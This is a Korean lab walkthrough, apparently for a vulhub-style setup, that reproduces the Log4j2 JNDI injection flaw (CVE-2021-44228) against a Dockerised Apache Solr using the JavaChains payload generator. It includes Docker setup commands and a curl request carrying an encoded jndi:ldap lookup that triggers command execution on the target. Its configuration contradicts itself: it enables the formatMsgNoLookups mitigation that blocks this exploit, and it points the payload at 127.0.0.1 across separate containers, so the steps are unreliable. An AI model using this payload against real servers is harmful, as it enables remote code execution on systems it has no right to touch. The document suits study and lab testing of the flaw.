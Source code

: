 # Apache Log4j2 JNDI 인젝션 취약점 (CVE-2021-44228)

Apache Log4j 2는 Log4j 1.x의 상위 버전으로, Logback에서 사용 가능한 많은 개선 사항을 제공하면서 Logback의 구조적 문제를 해결했습니다.

2021년 12월, Apache Log4j2에서 0-day 취약점이 발견되었습니다. Log4j의 JNDI 지원이 이름 해석을 제한하지 않았기 때문에 `rmi:` 및 `ldap:` 같은 프로토콜이 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.

## 취약점 환경 구성

### 1. JavaChains 설치
PoC를 수행하기 위해 JavaChains를 설치합니다. JavaChains는 JNDI 페이로드를 생성하고 LDAP 서버를 실행하는데 사용됩니다. 수동으로 설치하는 대신, docker-compose.yml 파일에 서비스를 추가하여 자동화된 설치를 구성했습니다.

```bash
# JavaChains 디렉토리 생성
mkdir -p CVE-2021-44228/java-chains

# Dockerfile 생성
cat > CVE-2021-44228/java-chains/Dockerfile << 'EOF'
FROM openjdk:8-jdk
WORKDIR /app
COPY target/java-chains-1.0-SNAPSHOT.jar app.jar
EXPOSE 8011
ENTRYPOINT ["java", "-jar", "app.jar"]
EOF
```

### 2. docker-compose.yml 수정
기존 docker-compose.yml 파일에 JavaChains 서비스를 추가합니다:

```yaml
version: '3'
services:
  solr:
    image: vulhub/solr:8.11.1
    ports:
      - "8983:8983"
    environment:
      - SOLR_OPTS=-Dlog4j2.formatMsgNoLookups=true
    volumes:
      - ./solr:/var/solr
    command:
      - solr-precreate
      - test
    restart: always

  java-chains:
    build: ./java-chains
    ports:
      - "8011:8011"
    restart: always
```

### 3. 환경 실행
다음 명령어로 환경을 실행합니다:

```bash
docker-compose up -d
```
JavaChains 접속
![image](https://github.com/user-attachments/assets/a54ee6a0-a5da-4607-a6cf-1587055f4523)

패스워드를 찾기 위해 
### 4. JavaChains 비밀번호 확인
JavaChains 웹 인터페이스에 접속하기 위한 비밀번호는 다음 명령어로 확인할 수 있습니다:

```bash
docker logs java-chains | grep password
```
![자바체인 로그](https://github.com/user-attachments/assets/65a2a400-e53a-430e-9e53-6a213d18841d)

## 취약점 공격

1. JavaChains 웹 인터페이스 접속:
   - 브라우저에서 http://localhost:8011 접속
   - 위에서 확인한 비밀번호 입력
   - 명령어 입력 (예: `touch /tmp/success`)
   - "Generate" 버튼 클릭하여 LDAP URL 생성
   - ![java-chains 접속6](https://github.com/user-attachments/assets/d2c5bb0b-e348-4059-8a29-b8bd74f30468)


2. 생성된 LDAP URL을 사용하여 Solr에 페이로드 전송:
```bash
curl "http://localhost:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A50389%2F[생성된_ID]%7D"
```

3. 명령어 실행 확인:
```bash
docker exec -it cve-2021-44228-solr-1 bash
ls -l /tmp/success
```
![image](https://github.com/user-attachments/assets/eacafb91-137f-4404-8ee3-c220cf4ca368)

## 주의사항

1. Java Chains와 Solr 컨테이너가 같은 Docker 네트워크에 있어야 합니다.
2. JDK 버전이 8u191 미만인 경우에만 `rmi://` 또는 `ldap://` 프로토콜을 사용할 수 있습니다.
3. 취약점 공격 시 반드시 테스트 환경에서만 실행해야 합니다.

## 참고 자료

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649 
